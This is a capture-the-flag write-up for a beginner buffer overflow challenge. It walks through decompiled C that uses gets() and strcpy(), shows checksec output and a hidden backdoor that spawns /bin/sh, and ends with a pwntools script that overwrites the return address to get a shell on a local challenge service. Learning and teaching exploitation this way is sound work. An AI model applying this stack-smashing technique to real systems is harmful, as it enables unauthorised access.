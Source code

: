 Charlie forgot his password. Help him to find it.

# Write-up

Firstly, open password_checker in IDA, we can see the reversed assembly code:

```
int password_checker()
{
  int result; // eax
  __int64 s2; // [rsp+0h] [rbp-A0h]
  char v2; // [rsp+8h] [rbp-98h]
  char dest; // [rsp+30h] [rbp-70h]
  char src; // [rsp+60h] [rbp-40h]
  int v5; // [rsp+9Ch] [rbp-4h]

  printf("Enter the password to get in: \n>");
  gets(&src);
  strcpy(&dest, &src);
  s2 = 0x64726F7773736170LL;
  v2 = 0;
  v5 = strcmp(&dest, (const char *)&s2);
  if ( v5 )
    result = printf("This is not the password", &s2);
  else
    result = printf("You got in!!!!", &s2);
  return result;
}
```

We can see that the insecure functions gets() and strcpy() are used.

Then, run `checksec` to identify what protection methods are used by password_checker:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since `NX` is enabled, we can't write shellcode to the stack and run.

Luckily, by inspecting the program, I was able to find a function called backdoor:

```
int backdoor()
{
  return system("/bin/sh");
}
```

Therefore I can overwrite the return address to the backdoor and get shell.

```
from pwn import *

backdoor_addr = p64(0x0000000000401172)

shellcode = 'A'*0x48
shellcode += backdoor_addr 

io = remote('localhost', 5000)
print io.read()
io.sendline(shellcode)
sleep(1)
io.interactive()
```

# Comment

This challenge is very straightforward and basic. I think it met every requirement to be a entry-level buffer overflow challenge. 

